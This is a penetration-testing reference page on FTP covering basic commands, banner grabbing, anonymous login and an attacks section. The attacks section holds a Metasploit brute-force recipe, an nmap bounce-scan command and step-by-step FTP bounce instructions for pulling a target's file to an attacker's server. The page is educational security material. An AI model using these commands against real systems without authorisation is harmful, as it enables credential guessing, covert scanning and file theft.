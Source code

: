 # 🛠️ \(21\) FTP

## Theory

The **File Transfer Protocol \(FTP**\) is a standard network protocol used for the transfer of files between a client and server. It usually runs on ports 21/tcp or 2121/tcp.

## Basic usage

Standard UNIX-like commands, like `cd`, `ls`, `mkdir`, `rm` can be used. Here is a short list of some specific commands.

| Command | Description |
| :--- | :--- |
| `help` | display local help information |
| `get` | download file from remote server |
| `put` | upload file on the remote server |
| `ascii` | set the transfer type to "ASCII" |
| `binary` | set the transfer type to "Binary" |
| `close` | terminate FTP session |
| `bye` | terminate ftp session and exit |

{% hint style="info" %}
When downloading files, users should set the FTP client to "Binary" \(`binary` command\) in order to prevent files from becoming corrupted during transit.

Regular text file can be downloaded in the other mode : "ASCII" \(`ascii` command\)
{% endhint %}

{% hint style="info" %}
Hidden files can be listed with `ls -a`
{% endhint %}

## Enumeration

### Banner grabbing

Useful to get basic information about the FTP server such as its type and version.

```bash
telnet -vn $IP $PORT
```

### Accepted commands

The `HELP` and `FEAT` commands could give information about the FTP server such as the recognized commands and the extended features the server supports.

```text
HELP
214-The following commands are recognized (* =>'s unimplemented):
214-CWD     XCWD    CDUP    XCUP    SMNT*   QUIT    PORT    PASV    
214-EPRT    EPSV    ALLO*   RNFR    RNTO    DELE    MDTM    RMD     
214-XRMD    MKD     XMKD    PWD     XPWD    SIZE    SYST    HELP    
214-NOOP    FEAT    OPTS    AUTH    CCC*    CONF*   ENC*    MIC*    
214-PBSZ    PROT    TYPE    STRU    MODE    RETR    STOR    STOU    
214-APPE    REST    ABOR    USER    PASS    ACCT*   REIN*   LIST    
214-NLST    STAT    SITE    MLSD    MLST    
214 Direct comments to root@drei.work
FEAT
211-Features:
 PROT
 CCC
 PBSZ
 AUTH TLS
 MFF modify;UNIX.group;UNIX.mode;
 REST STREAM
 MLST modify*;perm*;size*;type*;unique*;UNIX.group*;UNIX.mode*;UNIX.owner*;
 UTF8
 EPRT
 EPSV
 LANG en-US
 MDTM
 SSCN
 TVFS
 MFMT
 SIZE
211 End
```

### 🛠️ Files

[https://www.howtoforge.com/using-wget-with-ftp-to-download-move-web-sites-recursively](https://www.howtoforge.com/using-wget-with-ftp-to-download-move-web-sites-recursively)

## Connection

### Anonymous login

Some FTP servers are configured to let users connect anonymously and thus give them access to files on the servers without authentication.

```bash
$ ftp $IP $PORT
Name: anonymous
Password: <nothing>
ftp> ls -a # List all files (even hidden) (yes, they could be hidden)
ftp> ...
```

## Attacks

### Brute force

```bash
msfconsole
use auxiliary/scanner/ftp/ftp_login
set RHOSTS $IP
set RPORT $PORT
set USER_FILE $user.txt
set PASS_FILE $pass.txt
run
```

### FTP sniffing

If the FTP communications are not encrypted and if the attacker is on the same network of the client or the server he can sniff the data packet traveling between the client and the server in order to retrieve credential.

Several tools like `Wireshark` could be used to sniff TCP packets.

### FTP Bounce **attacks**

FTP Bounce attacks let an attacker requests access to ports by using the FTP command `PORT`. It's mostly used to make a port-scan without being detected \(as you are not the one doing it, but the FTP server for you\), for D.o.S. attacks, or to download files from another FTP server.

To check if the FTP server is vulnerable to Bounce attacks it is possible to use the tool `NMAP`.

{% hint style="info" %}
[https://nmap.org/nsedoc/scripts/ftp-bounce.html](https://nmap.org/nsedoc/scripts/ftp-bounce.html)
{% endhint %}

#### Scan the victim's network

If a FTP server is vulnerable to Bounce attacks, an attacker could use it to scan its network without being detected.

```bash
nmap -v -b -P0 'username':'password'@'ftp_server' 'address(es)_to_scan'
```

#### Download file/folder

If an attacker has access to a bounce FTP server, he can make it request files of other FTP server and download that file to his own server.

{% hint style="warning" %}
**Requirements:**

* Valid credentials in the FTP intermediate server
* Valid credentials in target FTP server
* Both servers accept the PORT command
* Write permissions in the intermediate server
* Attacker's FTP server supports passive mode
{% endhint %}

#### Steps

* Connect to your own FTP server and make the connection passive to make it listen in a directory where the victim service will send the file.

```bash
#Start server + connection
service pure-ftpd start
ftp My_IP 21
ftp> USER my_own_username
#Enable passive mode
ftp> pasv
Entering Passive Mode (F,F,F,F,X,X) #Note the output (IP and port)
#Tells server to accept data and to store it into the dump file
ftp> stor dump
```

* Create the file to send to the intermediate server with the commands that the targeted server will have to execute. Let's call this file `instrs`.

```bash
user ftp   # user and pass of the targeted server
pass -anonymous@
cwd /DIRECTORY
type i
port F,F,F,F,X,X  #IP and port of the attacker
retr file.tar.Z
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
...
```

{% hint style="info" %}
The extra nulls at the end of the command file are to fill up the TCP windows and ensure that the command connection stays open long enough for the whole session to be executed.
{% endhint %}

* Upload this file on the intermediate server, then upload it from the intermediate server to the targeted server and \_\_make the targeted machine execute this file. 

```bash
#Run these commands on the intermediate server
put instrs
quote "port C,C,C,C,0,21" #IP of the targeted server
quote "retr instrs"
```

* The attacker should have received on his server the file 'file.tar.Z' renamed as 'dump'. 

## References

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-ftp" caption="" %}

{% embed url="https://shahmeeramir.com/penetration-testing-of-an-ftp-server-19afe538be4b" caption="" %}

{% embed url="https://www.thesecuritybuddy.com/vulnerabilities/what-is-ftp-bounce-attack/" caption="" %}

{% embed url="https://www.serv-u.com/features/file-transfer-protocol-server-linux/commands" caption="" %}

